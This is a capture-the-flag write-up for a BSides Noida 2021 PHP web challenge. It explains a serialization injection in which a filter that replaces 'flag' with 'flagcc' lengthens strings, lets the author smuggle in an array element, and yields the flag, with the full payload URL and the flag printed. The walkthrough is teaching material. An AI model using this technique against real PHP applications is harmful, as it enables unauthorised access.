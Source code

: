 # wowooo 462 points

# Description
it's really interesting
Note : Bruteforce is not required.

[Link](http://34.88.85.200:4001/)

# Solution

There are no interesting things on the web page so I look at the source code

```html
PLSSS DONT HACK ME!!!!!!
<!-- debug -->
```

There is a comment "**debug**"

So we have to set "**debug**" http parameter

`34.88.85.200:4001/?debug`

We can see the source code
```php
 <?php
include 'flag.php';
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";

$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug --> 
```
Let's understand the code
```php
<?php
include 'flag.php';
```
It include other *php file* `flag.php`.Our **flag** must be there

```php
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
```
The `filter` function looks for "**flag**" in `$string` and **replaces** it with "**flagcc**"
```php
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";
```
The website takes `name` http parameter and stores it in `$username`.

Then it set `$pass` variable. ( Note: the `$pass` will be "Fl4g_in_V13tN4m" because it is seted after "V13tN4m_number_one" )

Our input will be combined with [PHP Serialization Format](https://en.wikipedia.org/wiki/PHP_serialization_format) string in `$ser` variable.
```php
$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
```
The `$ser` will be passed into `filter` function and then [unserialize](https://www.php.net/manual/en/function.unserialize.php) function

And then the *second* index of the result will be *compared* with "V13tN4m_number_one ". ( Note there is a space after the string )

If **equals**, our **flag** will be echoed.
```php
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug --> 
```
The rest is checking `debug` http parameter and if it is seted show the source *code*

So far we understand the code

To get the **flag** the second index of the result from `unserialize` must be "V13tN4m_number_one " instead of "Fl4g_in_V13tN4m"

Our *input* which is combined with *serialization format* in `$ser` variable is unfiltered and we can do **injection** attack!

But we can't send `";i:1;s:19:"V13tN4m_number_one ";}` straight because `strlen($username)` return the length of our whole payload
```
a:2:{i:0;s:strlen($username):"$username;...

becomes

a:2:{i:0;s:34:"";i:1;s:19:"V13tN4m_number_one ";}... 
```
The integer after **first** `s` must be the length of the **first** string.In our case it is `34` and the string is empty ""

So it doesn't work

Luckily there is `filter` function which replaces "flag" with "flagcc" and extending the length of the **first** string by 2.The function is called after `strlen($username)` so we can make our *length* of **first string** equals to the result of `strlen`

After trying for the length to be matched, the final *payload* looks like this

`flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}`

When we pass that *payload*
```
before passing to filter function
a:2:{i:0;s:102:"flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}...

after passing to filter function
a:2:{i:0;s:102:"flagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagcc";i:1;s:19:"V13tN4m_number_one ";}..
```
The length of **first** string `flagccflagcc...` is now 102 and it equals to the integer after **first** `s`

Send that **payload**!!!

`http://34.88.85.200:4001/?name=flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag%22;i:1;s:19:%22V13tN4m_number_one%20%22;}`

And there is the flag

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/wowooo/info.png">

*flag*: `BSNoida{3z_ch4all_46481684185_!!!!!!@!}`
